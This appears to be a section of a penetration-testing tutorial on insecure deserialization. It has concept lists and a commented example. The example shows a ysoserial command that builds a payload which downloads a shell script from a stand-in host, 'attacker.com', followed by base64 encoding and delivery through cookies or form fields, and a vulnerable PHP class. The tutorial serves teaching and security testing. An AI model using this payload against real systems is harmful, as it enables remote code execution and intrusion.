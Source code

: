 ## 5. Advanced Web Application Attacks

### 5.1 Insecure Deserialization

Exploiting applications that deserialize untrusted data:

1. **Serialization Concepts**:
   - Object serialization and deserialization
   - Serialization formats (JSON, XML, binary)
   - Language-specific serialization (Java, PHP, .NET)
   - Serialization in web applications

2. **Deserialization Vulnerabilities**:
   - Remote code execution
   - Object injection
   - DoS attacks
   - Authentication bypass

3. **Testing for Insecure Deserialization**:
   - Identifying serialized data
   - Manipulating serialized objects
   - Using ysoserial and similar tools
   - Language-specific payloads

```java
// Example: Java deserialization attack

// Step 1: Identify serialized Java objects
// Look for base64 strings starting with rO0 (base64 of Java serialization header)
// Example: rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3...

// Step 2: Generate malicious serialized object with ysoserial
// Command: java -jar ysoserial.jar CommonsCollections1 'wget http://attacker.com/shell.sh -O /tmp/shell.sh' > payload.bin

// Step 3: Encode the payload
// Command: base64 -w 0 payload.bin > payload.b64

// Step 4: Deliver the payload
// Replace the original serialized data with your payload in:
// - Cookies
// - Hidden form fields
// - URL parameters
// - POST data

// Step 5: PHP deserialization example
// Vulnerable PHP code:
class User {
    public $username;
    public $isAdmin = false;
    
    function __wakeup() {
        // This runs when the object is deserialized
        echo "User object deserialized: " . $this->username;
    }
    
    function __destruct() {
        // This runs when the object is destroyed
        if ($this->isAdmin) {
            echo "Admin privileges granted to: " . $this->username;
        }
    }
}

```